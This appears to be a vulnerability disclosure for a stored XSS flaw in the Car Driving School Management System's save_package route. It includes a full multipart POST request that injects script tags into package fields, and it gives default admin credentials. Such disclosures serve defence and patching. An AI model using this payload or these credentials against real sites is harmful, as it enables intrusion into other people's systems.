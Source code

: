 ### XSS vulnerability exists in Car Driving School Management System

official website:https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

version:v1.0

route:/cdsms/classes/Master.php?f=save_package

related file:Master.php

#### 1.Vulnerability analysis

As shown in the figure, in the Master.php file, the user input is not filtered or escaped, and is directly spliced into the SQL statement for storage and execution. As a result, the attacker can insert malicious script statements to cause malicious XSS execution of any user.

![image-20240725223640519](assets/image-20240725223640519.png)

#### 2.Vulnerability verification and exploit

First, log in to the backend system based on the admin/admin123 account and password, construct the following malicious data packet and send it. Note that the IP, port and cookie need to be modified according to the actual environment.

```
POST /cdsms/classes/Master.php?f=save_package HTTP/1.1
Host: localhost
Content-Length: 718
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjw7lEVIBLIry2FeG
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/cdsms/admin/?page=packages
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1721700678; PHPSESSID=4asqu1rn36mla3asev5h3vtoqa
Connection: close

------WebKitFormBoundaryjw7lEVIBLIry2FeG
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryjw7lEVIBLIry2FeG
Content-Disposition: form-data; name="name"

<script>alert("123123123")</script>
------WebKitFormBoundaryjw7lEVIBLIry2FeG
Content-Disposition: form-data; name="description"

<script>alert("123123123")</script>
------WebKitFormBoundaryjw7lEVIBLIry2FeG
Content-Disposition: form-data; name="training_duration"

<script>alert("123123123")</script>
------WebKitFormBoundaryjw7lEVIBLIry2FeG
Content-Disposition: form-data; name="cost"

11
------WebKitFormBoundaryjw7lEVIBLIry2FeG
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryjw7lEVIBLIry2FeG--

```

The vulnerability was triggered after the front desk visited Our Packages.

![image-20240725223517131](assets/image-20240725223517131.png)